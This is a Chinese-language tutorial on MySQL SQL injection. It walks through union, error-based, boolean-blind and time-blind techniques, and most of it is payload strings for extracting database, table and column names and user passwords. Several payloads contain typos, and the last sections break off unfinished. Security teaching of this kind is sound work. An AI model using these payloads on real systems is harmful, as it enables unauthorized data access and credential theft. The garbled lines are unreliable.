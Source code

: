 ## SQL注入之MySQL

### 一、联合注入
联合查询就是SQL语法中的union select语句。该语句会同时执行两条select语句，生成两张虚拟表，然后把查询到的结果进行拼接。</br>
select ~~~~~~ union select~~~~~~</br>
由于虚拟表是二维结构，联合查询会“纵向”拼接，两张虚拟的表。</br></br>
 **-- （1）判断注入点**
我们在可能存在SQL注入变量的后边添加以下payload：
```text
and 1=1 / and 1=2     --回显页面不同(整形判断) 
单引号判断‘            --显示数据库错误信息或者页面回显不同(整形,字符串类型判断) 
 \                    --(转义符) 
-1/+1                 --回显下一个或上一个页面(整型判断)
```
**-- （2）判断注入点为整型还是字符型**</br>
```text
输入and 1=1和and 1=2后发现页面没有变化，判断不是整型注入。</br>
输入’ and 1=1 %23和 ‘ and 1=2%23后发现页面变化，判断为字符注入。</br>
```
**-- （3）使用order by推断字段数，即表中列的数量**
 ```text
order by 4%23        查看页面变化，页面报错说明没有4列，没有保存说明有4列，继续下一个数字的尝试
```
**-- （4）使用union，确认显示位，即会显示的字段**
 ```python
id=-1' union select 1,2,3    查看页面显示1,2,3的位置，即显示位
```
**-- （5）获取数据库名**
 ```python
id=-1' union select 1,database(),3      我们得出了数据库名叫security
```
**-- （6）获取数据库表名**
 ```python
id=-1' union select 1,(select table_name from information_schema.tables where table_schema='security' limit 3,1),3
```
**-- （7）获取数据库表中所有字段**
 ```python
id=-1' union select 1,(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),3
```
**-- （8）获取字段中数据**
 ```python
id=-1' union select 1,select( username from users limit 1,1),(select password from users limit 1,1)
```
### 二、报错注入
<font color=#FF000 >1、使用extractvalue函数</font></br>

**-- （1）查询数据库名字（用户user()；版本version()）**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))%23
```
**-- （2）查询数据库有多少个表**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```
**-- （3）查询数据库的表名，limit后面第一个数字表示第几个表**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))%23
```
**-- （4）查询列名，limit后数字表示第几列**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))%23
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails'),0x7e))%23
```
**-- （5）查询表里面某列的内容**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(id) from security.emails),0x7e))%23
```
<font color=#FF000 >2、使用updatexml函数</font></br>

**-- （1）查询数据库名字，数据库名字为security（用户user()；版本version()）**
```Python
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23		
```
**-- （2）查询数据库有多少个表**
```Python
?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23	
```
**-- （3）查询数据库的表名，limit后第一个数字表示第几个表**
```Python
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)%23	
```
**-- （4）查询列名，limit后数字表示第几列**
```Python
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1)%23	
```
**-- （5）查询表里面某列的内容**
```Python
?id=1' and updatexml(1,concat(0x7e,(select group_concat(email_id) from security.emails),0x7e),1)%23	
```



### 三、布尔盲注
**-- 1#获得数据库名长度为8**
```Python
?id=1' and (length(database())=8)%23		#有回显
```
**-- 2#获得数据库名**
```Python
?id=1' and ascii(substr(database(),1,1))<100 %23		#无回显
?id=1' and ascii(substr(database(),1,1))=115 %23		#有回显
```
**-- 3#获得数据库表名个数**
```Python
?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4%23	#有回显
```
**-- 4#获得数据库表名长度**
```Python
?id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6%23	
```
**-- 5#获得数据库表名**
```Python
?id=1' and ascii((substr ((select table_name from information_schema.tables where table_schema=database() limit 0,1),0,1)))=106%23
```
**-- 6#获取列名**</br>

**-- 7#获得数据**

### 四、时间盲注
**1#获得数据库名长度**
```Python
?id=1' and if((length(database())>5),sleep(5),1)%23	    #有时间延迟，说明判断正确
?id=1' and if((length(database())>9),sleep(5),1)%23	    #无时间延迟，说明判断错误
?id=1' and if((length(database())>5),1,sleep(5))%23	    #无时间延迟，说明判断正确
```
**2#获得数据库名**
```Python
?id=1' and if((ascii(substr(database(),1,1))>100,sleep(5),1))%23		#有无回显
```
**3#获得表名（同理先获取长度）**
```Python
?id=1' and if((asscii(substr((select table_name from information_schame.tables where table_schame=database() limit 0,1),1,1)))>100,sleep(5),1)		#有无回显
```
**4#获取数据库列名（先拿列长度？）**
```Python
?id=1' and if
```
**5#获取数据**
```Python
?id=1' and if
```
